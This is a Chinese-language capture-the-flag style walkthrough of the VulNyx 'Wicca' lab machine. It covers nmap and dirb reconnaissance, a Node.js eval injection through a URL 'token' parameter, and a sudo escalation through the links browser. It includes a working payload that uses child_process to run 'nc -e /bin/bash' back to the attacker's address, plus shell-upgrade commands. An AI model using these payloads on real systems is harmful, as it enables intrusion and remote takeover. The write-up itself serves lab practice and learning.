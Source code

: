 # 环境

来自[vulynx_Wicca](https://vulnyx.com/#Wicca)，利用node.js搭建的后端报错存在命令执行代码，进行反弹shell

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240815215744371](image/image-20240815215744371.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.40
```

![image-20240815215818477](image/image-20240815215818477.png)

## 详情扫描

```bash
sudo nmap -sV -sC -O -p22,80,5000 192.168.88.40
```

![image-20240815221634375](image/image-20240815221634375.png)

## 目录扫描

```bash
dirb http://192.168.88.40
dirb http://192.168.88.40:5000
```

发现没有什么可利用信息，5000是node.js

![image-20240815221500523](image/image-20240815221500523.png)

# web渗透

## node.js反弹shell

访问5000端口，发现这个token参数输入英文会报错，并且报错信息中发现有eval函数

![image-20240815222133963](image/image-20240815222133963.png)

各种反弹shell[revshells.com](https://www.ddosi.org/shell/)，尝试使用node.js的反弹shell

payload=`http://192.168.88.40:5000/?name=admin&token=require(%27child_process%27).exec(%27nc%20-e%20/bin/bash%20192.168.88.10%208888%27)`

![image-20240815222027974](image/image-20240815222027974.png)

```bash
#获得更好的交互shell
/bin/script -qc /bin/bash /dev/null
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
stty size
stty rows 24 columns 80
source /etc/skel/.bashrc
```

## 提权

[links提权](https://gtfobins.github.io/gtfobins/links/#sudo)

```bash
sudo -l
sudo lnks
摁esc,选择os shell，即可提权
```

![image-20240815224046366](image/image-20240815224046366.png)

![image-20240815224217141](image/image-20240815224217141.png)
